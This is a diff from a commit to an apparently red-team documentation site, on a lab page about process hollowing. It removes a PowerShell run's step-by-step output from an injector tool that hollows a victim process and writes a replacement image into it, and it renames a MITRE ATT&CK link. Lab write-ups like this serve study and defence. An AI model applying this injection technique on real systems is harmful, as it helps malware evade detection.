

Before and after one commit to tymyrddin/red-evasion, a Sphinx documentation site: the page built from source/docs/injection/hollowing.md, in a window 1280 px wide and 1400 px high, scrolled down 4141 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/source/docs/injection/hollowing.md
+++ b/source/docs/injection/hollowing.md
@@ -227,44 +227,7 @@ On the target, find the `PID` of `Powershell` run by `THM-Attacker` (in the Deta
 PS C:\Users\THM-Attacker> cd .\Desktop\
 PS C:\Users\THM-Attacker\Desktop> cd .\Injectors\
 PS C:\Users\THM-Attacker\Desktop\Injectors> .\hollowing-injector.exe 3904
-[+] Created victim process
-        [*] PID 4536
-[+] Replacement executable opened
-        [*] Size 103424 bytes
-[+] Read replacement executable into memory
-        [*] In current process at 0x00bd0000
-[+] Obtained context from victim process's primary thread
-        [*] Victim PEB address / EBX = 0x0039f000
-        [*] Victim entry point / EAX = 0x00da36d0
-[+] Extracted image base address of victim process
-        [*] Address: 0x00da0000
-[+] Hollowed out victim executable via NtUnmapViewOfSection
-        [*] Utilized base address of 0x00da0000
-[+] Replacement image metadata extracted
-        [*] replacementImageBaseAddress = 0x00400000
-        [*] Replacement process entry point = 0x00001268
-[+] Allocated memory in victim process
-        [*] pVictimHollowedAllocation = 0x00da0000
-        [*] Headers written into victim process
-        [*] Section .text written into victim process at 0x00da1000
-                [*] Replacement section header virtual address: 0x00001000
-                [*] Replacement section header pointer to raw data: 0x00000400
-        [*] Section .rdata written into victim process at 0x00da2000
-                [*] Replacement section header virtual address: 0x00002000
-                [*] Replacement section header pointer to raw data: 0x00001200
-        [*] Section .data written into victim process at 0x00da3000
-                [*] Replacement section header virtual address: 0x00003000
-                [*] Replacement section header pointer to raw data: 0x00001e00
-        [*] Section .rsrc written into victim process at 0x00da4000
-                [*] Replacement section header virtual address: 0x00004000
-                [*] Replacement section header pointer to raw data: 0x00002000
-        [*] Section .reloc written into victim process at 0x00dbc000
-                [*] Replacement section header virtual address: 0x0001c000
-                [*] Replacement section header pointer to raw data: 0x00019200
-[+] Victim process entry point set to replacement image entry point in EAX register
-        [*] Value is 0x00da1268
-[+] Resuming victim process primary thread...
-[+] Cleaning up
+...
 PS C:\Users\THM-Attacker\Desktop\Injectors>
 ```
 
@@ -272,4 +235,4 @@ Flag!
 
 ## Resources
 
-* [Process hollowing](https://attack.mitre.org/techniques/T1055/012/)
+* [MITRE: Process hollowing](https://attack.mitre.org/techniques/T1055/012/)
````
Also changed, not shown: source/docs/injection/dll.md (+1 -1 lines), source/docs/injection/pe.md (+1 -1 lines), source/docs/injection/shell.md (+4 -0 lines), source/docs/injection/thread.md (+5 -1 lines).
